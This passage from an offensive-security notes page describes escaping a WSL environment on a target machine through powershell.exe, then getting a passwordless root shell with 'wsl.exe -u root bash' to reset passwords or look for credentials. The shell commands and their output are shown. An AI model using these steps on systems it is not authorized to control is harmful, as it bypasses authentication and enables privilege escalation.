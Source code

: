 Then simply add the location of this file to somewhere on your `$PATH`:

```bash
ln -s /opt/pwntools-terminal /bin/pwntools-terminal
```

### Privilege Escalation (password reset)

Here is a trick I found that I've ~~never~~ used but is still interesting.&#x20;

{% hint style="info" %}
**Update**: Since finding it I have used it to help ~~someone~~ 3 people recover their WSL `sudo` password! When you have a `root` shell with the trick explained below, use \
`passwd [username]` to set a new password
{% endhint %}

If you ever find yourself on a target machine in a WSL environment, you can easily escape it by using the `/mnt` directory that points to the real drives with Windows programs. You can even run Windows `.exe` programs from within WSL, such as `powershell.exe`!

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ powershell.exe
</strong># # OR
<strong>$ /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe
</strong>
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\...> whoami
hostname\user
</code></pre>

This first allows you to escape WSL into the normal user of the system, then it becomes a Windows game. If for any reason you want to then become the `root` user in WSL to find credentials or otherwise interesting stuff, you can use `wsl.exe -u root` from the Windows shell you got in order to execute the command as root.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session">$ id
uid=1001(user) gid=1001(user) groups=1001(user)
<strong>$ /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe 'wsl.exe -u root bash'
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
